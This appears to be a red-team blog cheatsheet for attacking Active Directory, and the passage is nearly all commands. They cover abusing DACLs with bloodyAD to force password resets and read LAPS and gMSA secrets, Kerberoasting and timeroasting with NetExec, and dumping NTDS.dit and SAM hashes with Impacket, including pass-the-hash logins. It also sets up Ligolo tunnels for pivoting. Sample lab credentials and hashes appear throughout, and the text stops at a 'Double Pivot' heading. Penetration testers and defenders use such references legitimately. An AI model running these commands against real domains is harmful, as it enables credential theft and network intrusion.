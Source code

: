```yaml
---
title: "Active Directory Cheatsheet"
date: 2025-09-15 00:00:00 +1000
categories: [active directory, cheatsheet, red team]
tags: [active directory, cheatsheet, red team]
---
```


This cheatsheets covers everything AD-related:
- Enumerating and exploiting DACLs, misconfigurations with bloodyAD
- Mapping network domains with BloodHound
- Authentication, enumeration, and credential dumping across various network services with NetExec
- Pivoting with ligolo - double, triple and quad pivots, accessing internal ports


### bloodyAD

bloodyAD is an Active Directory privilege escalation swiss army knife. bloodyAD can perform specific LDAP calls to a domain controller in order to perform AD privesc. It supports authentication using cleartext passwords, pass-the-hash, pass-the-ticket or certificates and binds to LDAP services of a domain controller to perform AD privesc.

autobloodyAD: https://github.com/CravateRouge/autobloody

**Reset/Change a User’s Password (ForceChangePassword, AllExtendedRights)**

```bash
#Change the password for admin with john's permissions - john = ControlledUser - admin = User whose password we want to change
bloodyAD -u john -p 'NewPassword123!' -d $domain --host $IP set password admin 'NewPassword123!'
```

```bash
#Enumerate the attributes and ACLs of a specific group
 bloodyAD --host dc01.ad.trilocor.local -d ad.trilocor.local -u username -p password get object "CN=GROUP NAME,OU=Security Groups,OU=Corp,DC=ad,DC=trilocor,DC=local" --attr 
 distinguishedName,nTSecurityDescriptor --resolve-sd
```

Enumerate a user’s rights at the Domain Level

```bash
bloodyAD --host dc01.ad.trilocor.local -d ad.trilocor.local -u username -p password get object 'DC=ad,DC=trilocor,DC=local' --attr ntsecuritydescriptor --resolve-sd
```

Enumerate a user’s rights, permissions, and ACLs

```bash
#Enumerate a user's rights, permissions, ACLs
bloodyAD --host dc01.ad.trilocor.local -d ad.trilocor.local -u username -p password get writable --detail
```

**Read GMSA Password (ReadGMSAPassword)**

```bash
##Use the 'ReadGMSAPassword' privilege to get the NTLM hash
nxc ldap tombwatcher.htb -u user -p password --gmsa
```

**Deleted Objects - AD Tombstones**

```bash
#Query to find deleted objects from the AD tombstone
bloodyAD -u $user -p '$password' -d $domain --host $DC get search -c 1.2.840.113556.1.4.2064 --filter '(isDeleted=TRUE)' --attr name --base 'CN=Deleted Objects,DC=ad,DC=trilocor,DC=local'
```

**Enable a Disabled Account**

```bash
bloodyAD -u $user -p '$password' -d $domain --host $DC remove uac $target_username -f ACCOUNTDISABLE
bloodyAD -u john.smith -p 'Password' -d htb.local --host dc01.htb.local remove uac joseph.smith -f ACCOUNTDISABLE
```

**Change a User’s SPN (for Targeted Kerberoasting)**

```bash
bloodyAD -d $domain --host $DC -u $user -p '$password' -k set object $user servicePrincipalName -v 'http/web.ad.trilocor.local'
```

**Search for LAPS Passwords (with GenericAll privilege)**

```bash
bloodyAD -u $user -p '$password' -d $domain --host $DC get search --filter '(&(objectCategory=computer)(ms-MCS-AdmPwd=*))' --attr ms-MCS-AdmPwd --base 'ou=servers,dc=reflection,dc=vl'

ldapsearch -x -H ldap://10.10.151.149 -D "abbie.smith@reflection.vl" -w 'CMe1x+nlRaaWEw' -b 
"ou=servers,dc=reflection,dc=vl" "(&(objectCategory=computer)(ms-MCS-AdmPwd=*))" ms-MCS-AdmPwd
```

### netexec

**Kerberoasting / Targeted Kerberoasting**

```bash
nxc ldap IP -u user -p password --kerberoast kerberoast.out
```

**RBCD / GenericAll Exploitation without a Machine Account**

```bash
##Query Machine Account Quota (MAQ) - 0 = we CANNOT create computer objects
nxc ldap $dc -u $user -p $password -M maq
```

**Timeroasting**

```bash
nxc smb $domain -M timeroast
```

**Query LDAP**

```bash
nxc ldap <ip> -u username -p password --query "(sAMAccountName=Administrator)" ""
nxc ldap <ip> -u username -p password --query "(sAMAccountName=Administrator)" "sAMAccountName objectClass pwdLastSet"
#Get User Descriptions
nxc ldap <hostname> -u <user> -p <pass> -M get-desc-users
```

**Find Misconfigured Delegation**

```bash
#Find Misconfigured Delegation
nxc ldap $IP-u $user -p $password --find-delegation

# Example Output

SMB    192.168.56.11   445   WINTERFELL   [*] Windows 10 / Server 2019 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
LDAP   192.168.56.11   389   WINTERFELL   [+] north.sevenkingdoms.local\eddard.stark:FightP3aceAndHonor! (Pwn3d!)
LDAP   192.168.56.11   389   WINTERFELL   AccountName  AccountType DelegationType                     DelegationRightsTo
LDAP   192.168.56.11   389   WINTERFELL   ------------ ----------- ---------------------------------- ----------------------------------------------------------------
LDAP   192.168.56.11   389   WINTERFELL   sansa.stark  Person      Unconstrained                      N/A
LDAP   192.168.56.11   389   WINTERFELL   jon.snow     Person      Constrained w/ Protocol Transition CIFS/winterfell, CIFS/winterfell.north.sevenkingdoms.local
LDAP   192.168.56.11   389   WINTERFELL   jon.snow     Person      Resource-Based Constrained         RBCD-COMPUTER$
LDAP   192.168.56.11   389   WINTERFELL   CASTELBLACK$ Computer    Constrained                        HTTP/winterfell, HTTP/winterfell.north.sevenkingdoms.local
LDAP   192.168.56.11   389   WINTERFELL   пользователь Person      Resource-Based Constrained         WINTERFELL$
```

### Impacket

Get a TGT for a user

```bash
impacket-getTGT $domain/'user':'password'
impacket-getTGT htb.local/'john':'Password123'
```

Dump database

```bash
impacket-secretsdump DOMAIN/username:password@IP
#Dumping secrets with a hash
impacket-secretsdump htb.local/john@10.10.10.5 -hashes :aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4
#Dump local SAM & SYSTEM files
impacket-secretsdump -sam SAM -system SYSTEM -security SECURITY LOCAL
#Dump local NTDS.dit (AD database)
impacket-secretsdump -ntds ntds.dit -system SYSTEM -security SECURITY LOCAL
```

Connecting to an MSSQL server

```bash
impacket-mssqlclient DOMAIN/username:password@IP
#Connecting to an MSSQL server with a hash
impacket-mssqlclient htb.local/john@10.10.10.5 -hashes :32ed87bdb5fdc5e9cba88547376818d4
```

### BloodHound

**Collection**

```bash
nxc ldap $domain -u $user -p $password --bloodhound --collection All --dns-server $IP

bloodhound-python -d $domain --zip -c All -ns $IP -u $user -p $password
```

### Pivoting with Ligolo

**Single Pivot**

```powershell
sudo ip tuntap add user $(whoami) mode tun ligolo #Add user
sudo ip link set ligolo up
```

**Single Pivot (same IP range)**

Pivoting when the target IP range is the same range as your IP (e.g both 10.10 range)

```bash
sudo ip tuntap add user $(whoami) mode tun ligolo #Add user
sudo ip link set ligolo up
sudo ip route add 10.10.146.86 via 10.8.5.207  #Add the machine IP (10.10.146.86) via your VPN IP (10.8.5.207)
sudo ip route add 10.10.146.80/28 dev ligolo   #Add a route between 10.10.146.80 to .95

```

**Port Forwarding**

If you need to access the local ports of the currently connected agents, there’s a “magic” CIDR hardcoded in Ligolo-ng: 240.0.0/4 (This is an unusual IPv4 subnet). If you query an IP address on this subnet, Ligolo-ng will automatically redirect traffic to the agent’s local IP address (127.0.0.1).

```bash
sudo ip route add 240.0.0.5/32 dev ligolo-portfwd
nmap -Pn 240.0.0.5 -p3306
```

**Double Pivot**
